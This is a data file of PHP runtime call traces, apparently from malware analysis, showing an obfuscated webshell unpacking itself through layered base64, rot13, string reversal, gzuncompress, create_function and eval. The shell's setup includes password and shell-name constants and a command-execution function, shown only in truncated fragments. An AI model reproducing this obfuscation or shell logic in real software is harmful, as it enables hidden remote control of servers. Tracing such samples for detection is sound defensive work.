

The data file committed next to this chart (first rows):
uuid, file_md5, index, source, target, argc, argv, return, dynamic
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 0, __main__, zend_compile_file, 2, {"value": []}, {"value": "26262609413C39413C3A413C50514…, []
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 1, __main__, error_reporting, 1, {"value": [[0, "new_error_level", 5]]}, {"value": "void"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 2, __main__, set_time_limit, 1, {"value": [[0, "seconds", 0]]}, {"value": "void"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 3, __main__, header, 1, {"value": [[0, "header", "content-Type: …, {"value": "void"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 4, __main__, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 5, __main__, stristr, 2, {"value": [[0, "haystack", "127.0.0.1:50…, {"value": false}, [135, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 6, __main__, base64_decode, 1, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 7, __main__, create_function, 2, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_1"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 8, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 9, __main__, __lambda_func, 0, {"value": []}, {"value": null}, []
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 10, __lambda_func, base64_decode, 1, {"value": [[0, "str", "\r\neJzsvWlv60qaJ…, {"value": "x\\x9c\\xec\\xbdio\\xebJ\\x9a…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 11, __lambda_func, gzuncompress, 1, {"value": [[0, "data", "x\\x9c\\xec\\xbd…, {"value": "\r\nob_start();define('myaddr…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 12, __lambda_func, eval, 1, {"value": [[0, "phpcode", "\r\nob_start(…, {"value": null}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 13, eval, zend_compile_string, 2, {"value": [[0, "source_string", "\r\nob_…, {"value": "3C415051423C41423C41423C41423…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 14, eval, ob_start, 0, {"value": []}, {"value": "void"}, []
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 15, eval, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 16, eval, define, 2, {"value": [[0, "constant_name", "myaddre…, {"value": "void"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 17, eval, define, 2, {"value": [[0, "constant_name", "postpas…, {"value": "void"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 18, eval, define, 2, {"value": [[0, "constant_name", "shellna…, {"value": "void"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 19, eval, define, 2, {"value": [[0, "constant_name", "myurl"]…, {"value": "void"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 20, eval, opoqmr, 2, {"value": [[0, "OtrIng", "==DsX0jBmIzpxN…, {"value": "void"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 21, opoqmr, strtr, 3, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 22, opoqmr, strtr, 3, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 23, opoqmr, strrev, 1, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 24, opoqmr, str_rot13, 1, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 25, opoqmr, base64_decode, 1, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 26, opoqmr, base64_decode, 1, {"value": [[0, "str", "MDl5"]]}, {"value": "09y"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 27, opoqmr, strtr, 3, {"value": [[0, "str", "hiJnOAzo1MOK0EKL0…, {"value": "h9Jn0Azo1M0KyEKLyW3D"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 28, opoqmr, strrev, 1, {"value": [[0, "str", "h9Jn0Azo1M0KyEKLy…, {"value": "D3WyLKEyK0M1ozA0nJ9h"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 29, opoqmr, str_rot13, 1, {"value": [[0, "str", "D3WyLKEyK0M1ozA0n…, {"value": "Q3JlYXRlX0Z1bmN0aW9u"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 30, opoqmr, base64_decode, 1, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 31, opoqmr, strrev, 1, {"value": [[0, "str", "==DsX0jBmIzpxNvol…, {"value": "MaIhL3Eco24tEKuyL19FqJ4bWTAgM…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 32, opoqmr, str_rot13, 1, {"value": [[0, "str", "MaIhL3Eco24tEKuyL…, {"value": "ZnVuY3Rpb24gRXhlY19SdW4oJGNtZ…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 33, opoqmr, base64_decode, 1, {"value": [[0, "str", "ZnVuY3Rpb24gRXhlY…, {"value": "function Exec_Run($cmd)\r\n{\…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 34, opoqmr, create_function, 2, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_2"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 35, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 36, opoqmr, __lambda_func, 0, {"value": []}, {"value": "void"}, []
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 37, eval, opoqmr, 2, {"value": [[0, "OtrIng", "=0aPAfGXbHJnxO…, {"value": "void"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 38, opoqmr, strtr, 3, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 39, opoqmr, strtr, 3, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 40, opoqmr, strrev, 1, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 41, opoqmr, str_rot13, 1, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 42, opoqmr, base64_decode, 1, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 43, opoqmr, base64_decode, 1, {"value": [[0, "str", "MDl5"]]}, {"value": "09y"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 44, opoqmr, strtr, 3, {"value": [[0, "str", "hiJnOAzo1MOK0EKL0…, {"value": "h9Jn0Azo1M0KyEKLyW3D"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 45, opoqmr, strrev, 1, {"value": [[0, "str", "h9Jn0Azo1M0KyEKLy…, {"value": "D3WyLKEyK0M1ozA0nJ9h"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 46, opoqmr, str_rot13, 1, {"value": [[0, "str", "D3WyLKEyK0M1ozA0n…, {"value": "Q3JlYXRlX0Z1bmN0aW9u"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 47, opoqmr, base64_decode, 1, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 48, opoqmr, strrev, 1, {"value": [[0, "str", "=0aPAfGXbHJnxOPVX…, {"value": "MaIhL3Eco24tL3AmK2ygMltxnJ1aX…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 49, opoqmr, str_rot13, 1, {"value": [[0, "str", "MaIhL3Eco24tL3AmK…, {"value": "ZnVuY3Rpb24gY3NzX2ltZygkaW1nK…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 50, opoqmr, base64_decode, 1, {"value": [[0, "str", "ZnVuY3Rpb24gY3NzX…, {"value": "function css_img($img){\r\n\t…, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 51, opoqmr, create_function, 2, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_3"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 52, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 53, opoqmr, __lambda_func, 0, {"value": []}, {"value": "void"}, []
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 54, eval, opoqmr, 2, {"value": [[0, "OtrIng", "==DsX0DsWbDQ7f…, {"value": "void"}, [0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 55, opoqmr, strtr, 3, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 56, opoqmr, strtr, 3, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 57, opoqmr, strrev, 1, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 58, opoqmr, str_rot13, 1, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
db26f9a972dfd62672ef0b25c8862f19, 99f33490e4a293d157381965682ae0a1, 59, opoqmr, base64_decode, 1, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
... 805 more rows
